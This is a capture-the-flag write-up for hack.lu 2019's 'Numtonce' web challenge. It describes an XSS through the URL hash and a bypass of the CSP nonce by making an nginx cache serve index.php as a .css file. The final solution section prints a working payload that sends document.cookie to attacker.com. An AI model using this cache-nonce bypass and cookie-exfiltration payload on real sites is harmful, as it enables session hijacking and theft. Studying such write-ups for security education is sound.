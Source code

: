 ```yaml
---
title:  "Numtonce"
date:   "2019-10-27"
tags: ["web", "XSS", "CSP", "hacklu2019"]
author: "Alain K."
image: "img/hacklu2019_website.png"
---
```


## Description
> With all the bad news in the world, everyone needs a calm place to wind down. 
> [We built one](https://numtonce.fluxfingersforfuture.fluxfingers.net/), 
> but you have to help us keep it safe. If you find anything suspicious, 
> [tell the forest ranger](https://numtonce.fluxfingersforfuture.fluxfingers.net/submit/)!
> He might reward you with a cookie :)

![Image of Website](img/hacklu2019_website.png)
## TL;DR
XSS is possible over URL hash. However CSP is set, so no external scripts allowed. Except if nonce tag is correct. Idea is to 
force the nonce tag to be the same after refreshes by loading the website from a cache. js/css/image files are loaded from cache, the index.php file itself not. 
Force index.php file to load from cache by appending a css filename to the url: http://url.com/index.php/blub.css. index.php will still load, 
however the proxy server things it is a css file and loads a cached version of index.php. Hence, we know the nonce in advance and can exceute custom js.

## Complete Writeup
By reading the description, it seems like the goal of the challenge is to steal a cookie from the browser. 
This is usually done by injecting custom javascript into the website (XSS) with a piece of code sending 
the cookie to a server controlled by the attacker. The forest ranger's website is just a text field to submit an URL to. 
A bot will then visit that URL with a cookie set to the flag to capture. Knowing this, the plan of attack:
1. Forge an URL that triggers custom javascript to send the cookie to a server we control
2. Submit the URL to the forest ranger bot
3. Check our server logs for stolen cookie
4. Submit the flag inside the cookie :)

Looking at the website itself, it seems to be very simplistic. It has one single page and the source code is pretty much only this javascript code:
```html
<script nonce="b80a92df721eda620876363536b7e9a6" src="/emojify.min.js"></script>
<script>
    const l=location
      let h=l.hash
      var p=l.hostname
    const s=l.search
      let a=h.split(p)
      var b=a.map((o,O)=>(O^0!==0&&o||'')).map(decodeURIComponent)
    const o0o=b.join(s)
      let script=sessionStorage[a[0]]
      var my=a=>b
    const msg='there is p' in my `t'
˂/script>

<script>
    o0o='nope'
˂/script>

A wise man once said: 'A CSP a day keeps the XSS away.`

<script>
    document.write('<div id="garden">');
    document.write(o0o||'tt t t t fnttttttttt nfst t ttt n t tl t  tnr tmtt dt n  cttttrttntt t tttttnttt   t t nt   tt tt nt  t  t  t'.split('').map(c=>({t:':evergreen_tree:',f:':fallen_leaf:',s:':squirrel:',l:':leaves:',r:':rabbit:',m:':maple_leaf:',d:':droplet:',c:':cherry_blossom:',n:'<br/>',' ':':white_small_square:'}[c])).join(''));
    document.write('</div>');

    emojify.setConfig({ img_dir: '/emojis' });
    emojify.run(garden);
</script>
```
Looking at the code, it is pretty clear that XSS over the URL is possible due to the `document.write(o0o)` line. Backtracing `o0o`, 
one can see that it is generated using the components of the url after the hashtag. Precisely, one can inject code using the following url scheme:
`https://numtonce.fluxfingersforfuture.fluxfingers.net/#numtonce.fluxfingersforfuture.fluxfingers.net<h1>test</h1>`

Next step is to try to embed our javascript code. However, that is where we hit a wall:
![Image of CSP error](img/hacklu2019_csp.png)
A CSP header was set to not allow scripts, except if the nonce tag or the scripts sha256 was correct:

`Content-Security-Policy: default-src 'none'; script-src 'sha256-CRtdY47bt+vWDdsuOTTeizFLvSy49h32pVgpWlyN0TU=' 'nonce-117bc8c1d6ead80e5b6ad3f3eca4921e'; img-src 'self'; style-src 'self'; base-uri 'none'; frame-ancestors 'none'; form-action 'none';`

The nonce is a random token that gets newly generated whenever the site reloads. 
Both options seemed impossible to us (and even the [CSP Evaulator said the header is safe](https://csp-evaluator.withgoogle.com/)), 
so we started to try to understand the rest of the javascript code and even analyze the included `emojify.js`. 
This proved to be completely unnecassary (see *Lessons learned* ). 
The rest of the javascript proved to be distractions only. It even includes a `<script>` tag that is not an actual script tag, 
but a comparison to a javascript variable called script. We spent a lot of time trying to figure out the meaning of all this but it was worthless.

After a while something intersting hit us. The js/css/image files included a strange header in the HTTP response:

`Hit-Or-Miss: i guess they never miss huh?`

This is when we noticed that js/css/iamge files were loaded from a cache. They also had an Age header, which expired after 10 minutes.
Then the idea struck, that if we managed to load the index.php from cache, the token would be the same for 10 minutes! We tried to force loading the index.php by setting some speciel request headers (Cache-Control, etc.). 
However none worked and also the bot to steal the cookie from would not have them set.

As one other header was `Server: nginx`, we looked up how to setup a basic cache on nginx. Basically, a regex filter is applied to the url and if it matches, files get cached.

So we tried to forge an URL that ends with .css but still loads index.php. After some trial and error, we forged the following url: `https://numtonce.fluxfingersforfuture.fluxfingers.net/index.php/blub.css`.

SUCCESS! The nonce token was always the same and the response had all the caching headers!

Trying out the following we get XSS with an alert ( {nonce} being the CSP nonce token that was in a previous response header):
`https://numtonce.fluxfingersforfuture.fluxfingers.net/index.php/blub.css#numtonce.fluxfingersforfuture.fluxfingers.net<script nonce="{nonce}">alert(1)</script>`

However trying to send the cookie to our server via ajax or as img src didn't work due to the CSP again. So we used the same trick again and wrote a script tag with the correct nonce:
`document.write('<script nonce="{nonce}" src="https://attacker.com/cookie='+document.cookie+'"></script>');`

In hindsight, a document.location=https://attacker.com/cookie='+document.cookie+' would have worked too.

## Final Solution
`https://numtonce.fluxfingersforfuture.fluxfingers.net/index.php/blub.css#numtonce.fluxfingersforfuture.fluxfingers.net<script nonce="{nonce}">document.write('<script nonce="{nonce}" src="https://attacker.com/cookie='+document.cookie+'"></script>');</script>`

{nonce} being the CSP nonce token that was in a previous response header with the same URL

## Lessons learned
Check and understand the CSP! We would have saved a looot of time if we understood the CSP correctly straight away. As `default-src` was set to `none`. 
We should have noticed that it is impossible to include any external resource. Meaning that even if we would have found some unsafe javascript code inside the website itself, 
it would still have been impossible to send the cookie to an external server! The only exceptions to be able to contact an external server would be if the nonce of a script tag is correct or the sha256 
of the external script would be correct. As it is impossible to find sha256 collisions, finding a correct nonce is the only possible solution. So no matter what we tried to do,
we sould have noticed from the beginning that we needed to force a valid nonce!

